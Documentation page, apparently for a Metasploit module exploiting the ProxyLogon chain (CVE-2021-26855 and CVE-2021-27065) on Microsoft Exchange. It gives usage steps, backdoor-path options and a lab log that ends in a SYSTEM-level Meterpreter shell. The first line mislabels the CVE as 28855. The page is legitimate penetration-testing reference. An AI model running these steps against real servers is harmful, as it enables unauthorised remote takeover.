 ## Vulnerable Application

CVE-2021-28855 is a pre-authentication SSRF (Server Side Request Forgery) which allows an attacker to
bypass authentication by sending specially crafted HTTP requests. This vulnerability is part of an attack
chain used to perform an RCE (Remote Code Execution).

CVE-2021-27065 is a post-auth arbitrary-file-write vulnerability to get code execution and the second part
of the ProxyLogon attack chain.

This vulnerability affects (Exchange 2013 Versions < 15.00.1497.012, Exchange 2016 CU18 < 15.01.2106.013,
Exchange 2016 CU19 < 15.01.2176.009, Exchange 2019 CU7 < 15.02.0721.013, Exchange 2019 CU8 < 15.02.0792.010).

### Introduction

This module exploit a vulnerability on Microsoft Exchange Server that allows an attacker bypassing the
authentication, impersonating as the admin (CVE-2021-26855) and write arbitrary file (CVE-2021-27065) to
get the RCE (Remote Code Execution).

By taking advantage of this vulnerability, you can execute arbitrary commands on the remote Microsoft
Exchange Server.

All components are vulnerable by default.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/http/exchange_proxylogon_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set EMAIL [EMAIL ADDRESS]`
5. Do: `run`

## Options

### EMAIL

A known email address for this organization.

### METHOD

HTTP Method to use for the check (only). Default: POST

### UseAlternatePath

Use the IIS root dir as alternate path. Default: false

## Advanced Options

### BackendServerName

Force the name of the backend Exchange server targeted. Default: Automatic

If not set, the automatic method will use an RPC call to detect the backend server FQDN. This is required because the
kerberos-authenticated SSRF can only be sent when the FQDN is known.

### ExchangeBasePath

The base path where Exchange is installed. Default: C:\Program Files\Microsoft\Exchange Server\V15

### ExchangeWritePath

The path where you want to write the backdoor. Default: owa\auth

You can for example, define to: ecp\auth

### IISBasePath

The base path where IIS wwwroot directory is. Default: C:\inetpub\wwwroot

### IISWritePath

The path where you want to write the backdoor. Default: aspnet_client

### MapiClientApp

This is MAPI client version sent in the request.

### MaxWaitLoop

Max counter loop to wait for OAB Virtual Dir reset. Default: 30

## Known issues

1. With `cmd/windows/adduser` payload, you may need to change the password because the default password does may
not meet Microsoft Windows complexity requirements.
2. Depending on the payload used, two `cmd.exe` processes remain alive on the server. If this is the case, you cannot
make another attempt if they are not killed.

## Scenarios

```
msf exploit(windows/http/exchange_proxylogon_rce) > options 

Module options (exploit/windows/http/exchange_proxylogon_rce):

   Name              Current Setting         Required  Description
   ----              ---------------         --------  -----------
   EMAIL             TestUserDA@adlab.local  yes       A known email address for this organization
   METHOD            POST                    yes       HTTP Method to use for the check (Accepted: GET, POST)
   Proxies                                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            192.168.49.58           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             443                     yes       The target port (TCP)
   SRVHOST           0.0.0.0                 yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT           8080                    yes       The local port to listen on.
   SSL               true                    no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                                   no        The URI to use for this exploit (default is random)
   UseAlternatePath  false                   yes       Use the IIS root dir as alternate path
   VHOST                                     no        HTTP server virtual host


Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     192.168.49.58     no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Windows Powershell


msf exploit(windows/http/exchange_proxylogon_rce) > exploit

[*] Executing automatic check (disable AutoCheck to override)
[*] Using auxiliary/scanner/http/exchange_proxylogon as check
[+] https://192.168.49.58:443 - The target is vulnerable to CVE-2021-26855.
[*] Scanned 1 of 1 hosts (100% complete)
[+] The target is vulnerable.
[*] https://192.168.49.58:443 - Attempt to exploit for CVE-2021-26855
[*] https://192.168.49.58:443 - Retrieving backend FQDN over RPC request
[*] Internal server name (srv02.adlab.local)
[*] https://192.168.49.58:443 - Sending autodiscover request
[*] Server: f652b961-f28e-448f-a8c6-5ff447ff06dd@adlab.local
[*] LegacyDN: /o=ExchangeLab/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=536cfe04ed60470a9a06efe4dfceebf6-Domain admin
[*] https://192.168.49.58:443 - Sending mapi request
[*] SID: S-1-5-21-1051242124-2374699599-3566640746-1113 (TestUserDA@adlab.local)
[*] https://192.168.49.58:443 - Sending ProxyLogon request
[*] Try to get a good msExchCanary (by patching user SID method)
[*] Try to get a good msExchCanary (without correcting the user SID)
[*] ASP.NET_SessionId: 39a0877e-e375-4f8f-b0dd-91dd2a57b2a8
[*] msExchEcpCanary: UFktnukJHk-HpS5vFKa0S7atYvxM9NgI9yo0dsMXgwN8vT1lu_YEmgGvWJdOoBycjlxjgzb95A4.
[*] OAB id: 9b86fdec-7db0-4335-b207-a80596c524af (OAB (Default Web Site))
[*] https://192.168.49.58:443 - Attempt to exploit for CVE-2021-27065
[*] Preparing the payload on the remote target
[*] Writing the payload on the remote target
[!] Waiting for the payload to be available
[+] Yeeting windows/x64/meterpreter/bind_tcp payload at 192.168.49.58:443
[*] Started bind TCP handler against 192.168.49.58:4444
[*] Sending stage (200262 bytes) to 192.168.49.58
[+] Deleted C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\TgnqKA.aspx
[*] Meterpreter session 2 opened (0.0.0.0:0 -> 192.168.49.58:4444) at 2021-03-29 09:59:17 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : SRV02
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : ADLAB
Logged On Users : 7
Meterpreter     : x64/windows
meterpreter >
```

